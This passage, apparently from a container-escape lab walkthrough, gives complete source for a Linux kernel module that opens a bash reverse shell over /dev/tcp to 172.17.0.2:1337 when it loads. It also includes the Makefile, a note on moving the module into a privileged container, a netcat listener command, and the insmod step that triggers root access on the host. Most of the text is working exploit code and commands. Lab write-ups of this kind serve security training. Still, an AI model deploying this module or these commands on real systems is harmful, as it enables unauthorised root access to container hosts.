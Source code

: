 The following steps have been performed on a separate host (an ubuntu system).

```
# apt update && apt install -y gcc make linux-headers 

# cat << EOF > reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.2/1337 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
EOF

# cat Makefile
obj-m +=reverse-shell.o
all:
make -C /lib/modules/$(uname -r)/build M=$(pwd) modules
clean:
make -C /lib/modules/$(uname -r)/build M=$(pwd) clean

# make

```

After the **kernel module** is **prepared**, the binary is **transferred to** the privileged **container**. This can be Base64-encoded (in my case 86 lines) or another transfer technique. With the binary transferred into the container, we can start in the **listener** for the **reverse shell**. 

**Terminal 1**

```
# nc -lvlp 1337
listening on [any] 1337 ...
```

Terminal 1 must be on a system that is accessible from the host, that serves the container. The listener can even be started inside the container.  If the listener is ready, the kernel module can be loaded, and the host will initiate the reverse shell.

**Terminal 2** 
```
# insmod reverse-shell.ko
```
And that’s it! 
